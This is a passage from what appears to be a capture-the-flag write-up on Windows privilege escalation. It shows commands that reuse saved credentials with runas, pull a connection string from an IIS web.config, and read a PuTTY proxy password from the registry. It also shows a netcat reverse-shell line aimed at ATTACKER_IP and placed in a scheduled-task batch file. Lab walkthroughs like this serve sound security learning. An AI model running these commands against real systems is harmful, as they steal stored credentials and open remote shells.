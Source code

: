 ```shell
runas /savecred /user:mike.katz cmd.exe
```

This should open a command prompt as the user mike.katz.  On the users desktop will be the 3rd answer.

---
#### IIS Config

Again follow the task and enter the command.

```shell
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

You should see in the given text the 2nd answer.


---
#### Retrieve Creds from Software:PuTTY

For this one I had trouble running the command in both cmd and powershell due to the query made in the task missing the last file to access the credentials
the way I solved this was to open Registry Editor and navigate to the location specified in the task 
 ```shell
HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\
```
Once there I saw that their is one more file I needed to go into in order to retrieve the answer.
Now you can either look for the "**ProxyPassword**" manually or just add the directory to the end of your command and retrieve the last answer.

```shell
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\My%20ssh%20server /f "ProxyPassword" /s
```



---
### task 4
---
#### Scheduled tasks

This one I had a bit of trouble getting the reverse shell to run.
Instead of using

``` shell
echo C:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
```

use 

```shell
notepad C:\tasks\schtask.bat
```
